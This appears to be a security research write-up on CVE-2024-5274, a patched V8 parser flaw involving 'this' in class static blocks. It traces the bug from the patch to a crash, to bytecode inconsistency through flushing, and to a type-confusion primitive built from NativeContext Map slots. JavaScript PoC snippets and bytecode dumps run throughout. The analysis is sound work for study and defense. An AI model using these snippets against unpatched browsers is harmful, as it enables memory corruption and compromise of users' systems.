


+++
title = 'CVE-2024-5274: A Minor Flaw in V8 Parser Leading to Catastrophes'
date = 2024-08-30T10:09:29+08:00
draft = false
+++

In May of this year, we noticed that Chrome fixed a V8 vulnerability that was being exploited in the wild in [this update](https://chromereleases.googleblog.com/2024/05/stable-channel-update-for-desktop_23.html). We quickly pinpointed the fix for this vulnerability and discovered that it was a rare bug in the Parser module, which piqued our interest greatly. This led to the following research.

## From Patch to PoC

First, let's take a look at the [patch](https://chromium-review.googlesource.com/c/v8/v8/+/5553030) for this vulnerability:

```diff
diff --git a/src/ast/scopes.cc b/src/ast/scopes.cc
index 660fdd2e9ad..de4df35c0ad 100644
--- a/src/ast/scopes.cc
+++ b/src/ast/scopes.cc
@@ -2447,7 +2447,7 @@ bool Scope::MustAllocate(Variable* var) {
     var->set_is_used();
     if (inner_scope_calls_eval_ && !var->is_this()) var->SetMaybeAssigned();
   }
-  DCHECK(!var->has_forced_context_allocation() || var->is_used());
+  CHECK(!var->has_forced_context_allocation() || var->is_used());
   // Global variables do not need to be allocated.
   return !var->IsGlobalObjectProperty() && var->is_used();
 }
diff --git a/src/parsing/parser-base.h b/src/parsing/parser-base.h
index 40914d39a4f..65c338f343f 100644
--- a/src/parsing/parser-base.h
+++ b/src/parsing/parser-base.h
@@ -2661,6 +2661,7 @@ typename ParserBase<Impl>::BlockT ParserBase<Impl>::ParseClassStaticBlock(
   }

   FunctionState initializer_state(&function_state_, &scope_, initializer_scope);
+  FunctionParsingScope body_parsing_scope(impl());
   AcceptINScope accept_in(this, true);

   // Each static block has its own var and lexical scope, so make a new var
```

The patch is very simple, the actual effective fix is just one line of code. This line introduces a variable of type `FunctionParsingScope` when parsing the [static initialization block](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Classes/Static_initialization_blocks) of a class. Let's examine what this newly introduced variable does:

```C++
  class V8_NODISCARD FunctionParsingScope {
   public:
    explicit FunctionParsingScope(Impl* parser)
        : parser_(parser), expression_scope_(parser_->expression_scope_) {
      parser_->expression_scope_ = nullptr;
    }

    ~FunctionParsingScope() { parser_->expression_scope_ = expression_scope_; }

   private:
    Impl* parser_;
    ExpressionScope* expression_scope_;
  };
```

This is an extremely simple class. What it does is store the current `expression_scope_` in the `parser_` when constructed and restore it when destructed. So the key point here is the `ExpressionScope`.

During the syntax analysis phase, the parser divides different parts of the script into different [Scopes](https://developer.mozilla.org/en-US/docs/Glossary/Scope). Simply put, Scope divides the range of variable usage. JavaScript has many different types of Scopes, such as Global scope, Module scope, Function scope, etc.

To better parse variables in different Scopes, developers introduced the concept of `ExpressionScope`. You can refer to this [official document](https://docs.google.com/document/d/1FAvEp9EUK-G8kHfDIEo_385Hs2SUBCYbJ5H-NnLvq8M/edit) for a detailed concept. It is worth mentioning that `ExpressionScope` in V8 is a completely different concept from `Scope` despite their similar names. `ExpressionScope` is an intermediate variable that exists to facilitate parsing and is used to generate the actual `Scope` in the AST. Like `Scope`, `ExpressionScope` indexes the outer layers through its parent.

Returning to this vulnerability, the newly added `FunctionParsingScope` variable blocks the `ExpressionScope` chain from indexing its parent. Therefore, the original vulnerability likely caused unexpected behavior in the parent `ExpressionScope`. Almost the only suspect function that references the parent is:

```C++
  void RecordThisUse() {
    ExpressionScope* scope = this;
    do {
      if (scope->IsArrowHeadParsingScope()) {
        scope->AsArrowHeadParsingScope()->RecordThisUse();
      }
      scope = scope->parent();
    } while (scope != nullptr);
  }
```

Let's check where this function is called:

```C++
  // Needs to be called if the reference needs to be available from the current
  // point. It causes the receiver to be context allocated if necessary.
  // Returns the receiver variable that we're referencing.
  V8_INLINE Variable* UseThis() {
    // ...
    var->set_is_used();
    if (closure_scope == receiver_scope) {
      // It's possible that we're parsing the head of an arrow function, in
      // which case we haven't realized yet that closure_scope !=
      // receiver_scope. Mark through the ExpressionScope for now.
      expression_scope()->RecordThisUse();
    } else {
    // ...
  }
```

This function handles a special variable `this` in JavaScript. In traditional functions, the `this` variable cannot be passed between function calls, such as:

```javascript
function showThis() {
  function innerThis() {
    return this;
  }
  console.log(this == innerThis());
}

let obj = {};
obj.showThis = showThis;
obj.showThis();
// output: false
```

However, the arrow function introduced in ES6 solves this problem. The arrow function can normally use the outer `this` variable. To support this feature, parsing `this` requires special handling. As noted in the `UseThis` function, when V8 encounters the `this` variable, if the inner and outer Scopes are the same, it is possible that the parameters of an arrow function are being parsed, as shown in the following code:

```javascript
function foo() {
  (arg = this.a) => { console.log(arg); }
}
```

Since the arrow function's Scope has not yet been allocated at this point, `ExpressionScope` is used to mark the usage of the `this` variable here, so that the `this` variable can be correctly allocated when the Scope is later assigned. In `RecordThisUse`, the function marks all parent `ExpressionScope` as using `this`.

Now, recalling the transmission of `this`, it should be blocked during the function call process. The class static block should also be considered a function block. Therefore, the problem here is: using `this` in a class static block, transmitted through the `ExpressionScope` chain, will incorrectly mark the outer function as using `this`. The PoC is as follows:

```javascript
function f1() {
  (arg = class AAA {
    static {
      this;
    }
  }) => { }
}
f1();
```

Since the outer function `f1` does not actually use `this`, but it is marked as `has_forced_context_allocation`, triggering a DCHECK when allocating this variable.



## Constructing Inconsistent Bytecode

What kind of chaos can such a tiny error cause in the V8 engine? Let's delve deeper into the generated bytecode.

Construct the following function:

```javascript
function f1() {
  function foo() { }
  (arg = class AAA {
    static {
      this;
    }
  }) => { }
}
```

The bytecode generated after the bug fix in the new version:

```assembly
[generated bytecode for function: f1 (0x234800198559 <SharedFunctionInfo f1>)]
Bytecode length: 6
Parameter count 1
Register count 0
Frame size 0
   40 S> 0xee0000400a4 @    0 : 85 00 00 02       CreateClosure [0], [0], #2
         0xee0000400a8 @    4 : 0e                LdaUndefined
  102 S> 0xee0000400a9 @    5 : af                Return
Constant pool (size = 1)
0xee000040071: [TrustedFixedArray]
 - map: 0x234800000595 <Map(TRUSTED_FIXED_ARRAY_TYPE)>
 - length: 1
           0: 0x2348001986a1 <SharedFunctionInfo>
```

The problematic bytecode in the old version:

```assembly
[generated bytecode for function: f1 (0x0e2b0019ab81 <SharedFunctionInfo f1>)]
Bytecode length: 15
Parameter count 1
Register count 1
Frame size 8
Bytecode age: 0
   19 E> 0xe2b0019adc2 @    0 : 84 00 01          CreateFunctionContext [0], [1]
         0xe2b0019adc5 @    3 : 1a fa             PushContext r0
         0xe2b0019adc7 @    5 : 0b 02             Ldar <this>
         0xe2b0019adc9 @    7 : 25 02             StaCurrentContextSlot [2]
   63 S> 0xe2b0019adcb @    9 : 81 01 00 02       CreateClosure [1], [0], #2
         0xe2b0019adcf @   13 : 0e                LdaUndefined
  155 S> 0xe2b0019add0 @   14 : aa                Return
Constant pool (size = 2)
0xe2b0019ad91: [FixedArray] in OldSpace
 - map: 0x0e2b00000089 <Map(FIXED_ARRAY_TYPE)>
 - length: 2
           0: 0x0e2b0019ad2d <ScopeInfo FUNCTION_SCOPE>
           1: 0x0e2b0019ad5d <SharedFunctionInfo>
```

As mentioned in the previous section, even if `this` is not used in the function `f1`, the bytecode still forcibly allocates the `this` variable. Here’s a detailed explanation of its bytecode:

1. `CreateFunctionContext` creates a function context.
2. `PushContext` replaces the current context with the newly created one, saving the old context.
3. `Ldar` loads `this` into the accumulator.
4. `StaCurrentContextSlot` stores the value in the accumulator into slot 2 of the current context.

However, our goal is to achieve bytecode inconsistency within a single script execution to make it exploitable. After studying the PoC and [analysis](https://github.com/bjrjk/CVE-2022-4262/blob/main/FA/FA.md) of [CVE-2022-4262](https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2022/CVE-2022-4262.html), leveraging the Bytecode flushing mechanism seems like a good idea. In V8, if a function remains unused after multiple garbage collections (GC), its bytecode will be reclaimed. When executed again, the parser will use previously stored results to regenerate the bytecode more quickly. For example, when parsing the head of an arrow function, the parser does not know whether it is dealing with a variable assignment or an arrow function parameter declaration during the first bytecode generation. However, in subsequent handling, it can determine that it is the head of an arrow function.

With this foundational knowledge, we actively triggered Bytecode flushing and successfully constructed inconsistent bytecode across two executions:

```javascript
f1();
flush_bytecode();
f1();
```

The bytecode of function `f1` after flushing is consistent with the bytecode after the bug fix, i.e., it lacks the four bytecode instructions for constructing the Function Context.

## Failed Attempt Records

> This section does not affect the subsequent content. Readers can skip to the next section.

In reality, our research was not smooth sailing. Before constructing a practically useful inconsistency, we spent a considerable amount of time attempting another form of bytecode inconsistency.

Initially, we observed the erroneous bytecode, which essentially stored an unnecessary `this` in the Function Context. The first idea that came to mind was: if there are other variables in the Function Context, due to the bytecode inconsistency, if an inner function uses the same slot index to access variables, some unexpected behavior might occur.

With this idea, we constructed the following PoC:

```javascript
function f1() {
  let a0 = 0, a1 = 1;

  function f2() {
    console.log('a0 = ' + a0);
    console.log('a1 = ' + a1);
  }

  function hax() {
    a0 = 0x1337;
  }

  (arg = class AAA {
    static {
      this;
    }
  }) => { }

  hax();
  f2();
  return hax;
}

// keep a reference to hax to make it consistent after flushing
let hax = f1();
flush_bytecode();
console.log('after flush');
f1();
```

The output result is:

```
a0 = 4919
a1 = 1
after flush
a0 = 0
a1 = 4919
```

As we can see, during the second execution, even though the object being assigned is `a0`, it is actually `a1` that gets modified. Let's inspect the bytecode of the function `hax`:

```assembly
[generated bytecode for function: hax (0x2e72000db2ed <SharedFunctionInfo hax>)]
Bytecode length: 15
Parameter count 1
Register count 1
Frame size 8
Bytecode age: 0
  763 S> 0x2e72000dc35e @    0 : 00 0d 37 13       LdaSmi.Wide [4919]
         0x2e72000dc362 @    4 : c5                Star0
         0x2e72000dc363 @    5 : 16 03             LdaCurrentContextSlot [3]
  766 E> 0x2e72000dc365 @    7 : ab 00             ThrowReferenceErrorIfHole [0]
         0x2e72000dc367 @    9 : 0b fa             Ldar r0
         0x2e72000dc369 @   11 : 25 03             StaCurrentContextSlot [3]
         0x2e72000dc36b @   13 : 0e                LdaUndefined
  778 S> 0x2e72000dc36c @   14 : aa                Return
Constant pool (size = 1)
0x2e72000dc331: [FixedArray] in OldSpace
 - map: 0x2e7200000089 <Map(FIXED_ARRAY_TYPE)>
 - length: 1
           0: 0x2e72000dad51 <String[2]: #a0>
```

The bytecode generated for `hax` is the same both times, consistently reading the variable from slot 3 of the current Context. This is not an issue during the first execution because `this` is stored in slot 2 and `a0` is stored in slot 3. However, during the second execution, V8 generates the correct bytecode for `f1`, where `a0` is in slot 2 and `a1` is in slot 3. The bytecode for `hax` does not update correctly, leading to the unexpected result above.

We attempted to exploit this bug to cause further type confusion, but all our methods failed:

1. We tried leveraging JIT optimization for accessing `a0`, then using the JIT-compiled function to access `a1` after triggering the bug. However, this approach was not feasible, as variable modifications at the bytecode level are visible to the JIT engine.
2. We attempted to use unexpected bytecode to access another variable, such as the following scenario: bytecode Foo only accepts parameters of type A, and using parameters of type B would cause type confusion. However, bytecode, being a higher-level construct, validates input parameter types, and the desired bytecode did not exist.

## Exploiting Bytecode Inconsistency

### Another Unexpected Behavior

By examining the bytecode generated in two different instances, we observed the distinction lies in the presence or absence of the Function Context. Studying the bytecode revealed that there are two ways to load from the Context: `LdaCurrentContextSlot` and `LdaContextSlot`.

```javascript
// comments from src/interpreter/interpreter-generator.cc

LdaCurrentContextSlot <slot_index>
Load the object in |slot_index| of the current context into the accumulator.

LdaContextSlot <context> <slot_index> <depth>
Load the object in |slot_index| of the context at |depth| in the context
chain starting at |context| into the accumulator.
```

Clearly, `LdaContextSlot` is more complex. Since context storage is stack-based, `LdaContextSlot` provides a more general way to load, allowing manual specification of the starting context and the required depth.

For instance, the following bytecode is a common combination to load a value:

```assembly
 2807 S> 0x1541001a24ba @    0 : 14 ff 70 01       LdaContextSlot <context>, [10], [1]
         0x1541001a24be @    4 : ab 00             ThrowReferenceErrorIfHole [0]
         0x1541001a24c0 @    6 : c5                Star0
```

Reflecting on the differences in bytecode generation, a new idea emerged: What if, during the second bytecode generation, no new Function Context was created, and the inner function `LdaContextSlot` retained the old depth? What would happen then?

```javascript
let o0;
function f1() {
  function hax() {
    %DebugPrint(o0);
  }
  // ...
}
```

The bytecode for the function `hax` is as follows:

```assembly
[generated bytecode for function: hax (0x00f9000de775 <SharedFunctionInfo hax>)]
Bytecode length: 14
Parameter count 1
Register count 1
Frame size 8
Bytecode age: 0
 2602 S> 0xf9000e1256 @    0 : 14 ff 02 01       LdaContextSlot <context>, [2], [1]
         0xf9000e125a @    4 : ab 00             ThrowReferenceErrorIfHole [0]
         0xf9000e125c @    6 : c5                Star0
         0xf9000e125d @    7 : 65 aa 01 fa 01    CallRuntime [DebugPrint], r0-r0
         0xf9000e1262 @   12 : 0e                LdaUndefined
 2621 S> 0xf9000e1263 @   13 : aa                Return
Constant pool (size = 1)
0xf9000e1229: [FixedArray] in OldSpace
 - map: 0x00f900000089 <Map(FIXED_ARRAY_TYPE)>
 - length: 1
           0: 0x00f9000dad2d <String[2]: #o0>
```

The output result is surprising:

```javascript
DebugPrint: 0xf9000d4089: [JSGlobalObject] in OldSpace
 - map: 0x00f9000d8395 <Map[20](HOLEY_ELEMENTS)> [DictionaryProperties]
 - prototype: 0x00f900092b7d <Object map = 0xf9000d46a5>
 - elements: 0x00f900000219 <FixedArray[0]> [HOLEY_ELEMENTS]
 - native context: 0x00f9000c3c2d <NativeContext[281]>
 - global proxy: 0x00f9000c3bf5 <JSGlobalProxy>
 - properties: 0x00f9000e0bbd <GlobalDictionary[261]>
 - All own properties (excluding elements): {
   Uint8Array: 0x00f9000c5be1 <JSFunction Uint8Array (sfi = 0xf90008c131)> (data, dict_index: 30, attrs: [W_C])
   ...
```

Where does this `JSGlobalObject` come from?

The answer lies in the [NativeContext](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=704). By skipping a layer of the Function Context, we loaded from an outer layer of the expected context, which is the `NativeContext`.

Let's slightly modify the script to dump all objects in the `NativeContext`:

```javascript
let o0, o1, o2, o3, ...
function f1() {
  function hax() {
    %DebugPrint(o0);
    %DebugPrint(o1);
    %DebugPrint(o2);
    // ...
  }
// ...
```

The corresponding source code for these objects can be found [here](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/objects/contexts.h;drc=1f14cc876cc5bf899d13284a12c451498219bb2d;l=44). The dumped [results](https://github.com/DarkNavySecurity/PoC/blob/main/CVE-2024-5274/native_context_objs.txt) have also been made public.

### Playing with NativeContext

At this point, we can arbitrarily access objects within the `NativeContext`, which includes many objects that are normally inaccessible during JavaScript execution. For example, we can directly access a `FixedDoubleArray` within a double-typed array (the structure that actually stores the elements).

```C
// o155 in slot 157
DebugPrint: 0x272f000d1ba1: [FixedDoubleArray] in OldSpace
 - map: 0x272f0000090d <Map(FIXED_DOUBLE_ARRAY_TYPE)>
 - length: 64
        0-63: 0
0x272f0000090d: [Map] in ReadOnlySpace
 - type: FIXED_DOUBLE_ARRAY_TYPE
 - instance size: variable
 - elements kind: HOLEY_DOUBLE_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x272f00000251 <undefined>
 - prototype_validity cell: 0
 - instance descriptors (own) #0: 0x272f00000295 <DescriptorArray[0]>
 - prototype: 0x272f00000235 <null>
 - constructor: 0x272f00000235 <null>
 - dependent code: 0x272f00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
```

However, attempting to use this type results in a crash.



This is because these types cannot be directly manipulated from JavaScript. Apart from some basic types, only types belonging to `JSObject` can be operated on by scripts.

Further research into other objects in the `NativeContext` reveals a large number of Map types.

```C
// o151 in slot 153
DebugPrint: 0x272f000d1b39: [Map] in OldSpace
 - type: JS_MAP_KEY_VALUE_ITERATOR_TYPE
 - instance size: 20
 - inobject properties: 0
 - elements kind: HOLEY_ELEMENTS
 - unused property fields: 0
 - enum length: invalid
 - stable_map
 - back pointer: 0x272f00000251 <undefined>
 - prototype_validity cell: 0x272f00000ac5 <Cell value= 1>
 - instance descriptors (own) #0: 0x272f00000295 <DescriptorArray[0]>
 - prototype: 0x272f000d1251 <Object map = 0x272f000d11e5>
 - constructor: 0x272f000d1b19 <JSFunction MapIterator (sfi = 0x272f00091e29)>
 - dependent code: 0x272f00000229 <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0
 ...
```

A Map is a fundamental and important type in V8, determining the type of a variable. If we can manipulate Maps, we can create a powerful exploitation primitive: Type Confusion.

In certain scenarios, V8 reads Maps from the `NativeContext` to create objects. For example, in [src/builtins/promise-all.tq](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/builtins/promise-all.tq;drc=ec53113a6d7d95cf8b255aec7fc91b17acd33d80;l=309):

```javascript
      const arrayMap =
          *NativeContextSlot(
          nativeContext, ContextSlot::JS_ARRAY_PACKED_ELEMENTS_MAP_INDEX);
// ...
      const valuesArray = NewJSArray(arrayMap, values);
```

Although we cannot directly modify the Map objects, the `NativeContext` contains many Maps. If we read a Map from one slot and overwrite another slot's Map with it, can we cause type confusion? The answer is yes!

The following code is a simple PoC:

```javascript
function f1() {
  function hax() {
    // o60 is JS_ARGUMENTS_OBJECT_TYPE map with FAST_SLOPPY_ARGUMENTS_ELEMENTS
    // o110 is JS_ARRAY_TYPE map with PACKED_DOUBLE_ELEMENTS
    o60 = o110;
  }
  // ...
}
// ...

function hax2(a0) {
  // `arguments` is confused to double array now
  %DebugPrint(arguments);
}
hax2();
```

In the PoC, we confused the function's `arguments` with a double-element array, causing an OOB read/write. By achieving this type confusion, we can proceed with the classic V8 exploitation techniques. The related [PoC](https://github.com/DarkNavySecurity/PoC/tree/main/CVE-2024-5274) code and all native objects definitions have been made public in our GitHub repository.

Thus, through a seemingly insignificant issue in the parser, we managed to create a powerful exploitation primitive, allowing us to arbitrarily confuse different types within the JavaScript engine.